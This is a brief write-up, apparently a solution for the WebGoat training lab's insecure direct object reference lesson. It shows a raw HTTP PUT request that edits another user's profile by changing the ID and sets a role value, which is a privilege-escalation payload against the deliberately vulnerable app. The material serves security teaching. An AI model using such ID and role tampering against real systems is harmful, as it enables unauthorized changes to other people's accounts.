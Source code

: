 # (A5) Insecure Direct Object References

## Lesson 5 - Playing with the Patterns
Edit another profile:
```
PUT http://localhost:8080/WebGoat/IDOR/profile/2342388 HTTP/1.1
Host: vernjan:8080
Content-Type: application/json
Content-Length: 77
Cookie: JSESSIONID=DTDJnkBwts-f_6uXV8AJ0iTSvX8zolnBkQR0xLuF

{"role":1, "color":"red", "size":"small", "name":"Tom Cat", "userId":2342388}
```
